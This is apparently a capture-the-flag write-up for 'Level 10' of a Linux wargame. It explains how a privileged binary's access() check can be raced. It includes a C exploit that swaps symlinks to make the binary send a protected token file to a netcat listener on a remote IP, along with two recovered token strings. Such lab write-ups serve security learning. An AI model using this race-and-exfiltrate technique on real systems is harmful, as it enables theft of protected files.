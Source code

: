 # Level 10


![alt text](image.png)



can't connect to 10.13.100.41.6969
![alt text](image-1.png)


let's trace the program

![alt text](image-2.png)

we found multiple syscalls and library calls:

[access](/level10/resources/access.md )  is used to  check whether the file is readable


**socket function**

from [socket.h](https://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html) we can find the value used in socket function parameter

- domain : Specifies the communication domain or protocol family  

    `AF_INET`: For IPv4 Internet protocols.

**type** Specifies the type of socket, determining the communication semantics

`SOCK_STREAM`: For connection-oriented, reliable, and ordered byte streams (e.g., TCP).

in the third parameter `protocol` this is often set to 0, which means the system will automatically choose the appropriate default protocol

![alt text](image-4.png)
![alt text](image-5.png)

**inet_addr function**
The inet_addr() function shall convert the string pointed to by cp, in the standard IPv4 dotted decimal notation, to an integer value suitable for use as an Internet address.

it returns `0x29640d0a ===> (694422794)10`


![alt text](image-6.png)


`woupa2yuojeeaaed06riuj63c`
`feulo4b72j7edeahuete3no7c`



https://superuser.com/questions/1008348/netcat-keep-listening-for-connection-in-debian

https://man7.org/linux/man-pages/man2/access.2.html

https://stackoverflow.com/questions/11525164/what-is-wrong-with-access

https://stackoverflow.com/questions/14333112/access2-system-call-security-issue


```bash
nc -l -k 6969
```

```c
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void* myThreadFunc(void* arg) {
        printf("Thread is running...\n");
	system("touch /tmp/badr/dawzer ; /home/user/level10/level10 /tmp/badr/dawzer 10.13.100.41");
	sleep(1);
    return NULL;
}


int main() {
    pthread_t thread;

    int i = 0;
    while(i < 10) {
	    pthread_create(&thread, NULL, myThreadFunc, NULL);
	    system("ln -s /home/user/level10/token /tmp/badr/ ; mv /tmp/badr/token /tmp/badr/dawzer ; rm /tmp/badr/dawzer");
	    pthread_join(thread, NULL);
	    i++;
    }


    return 0;
}
```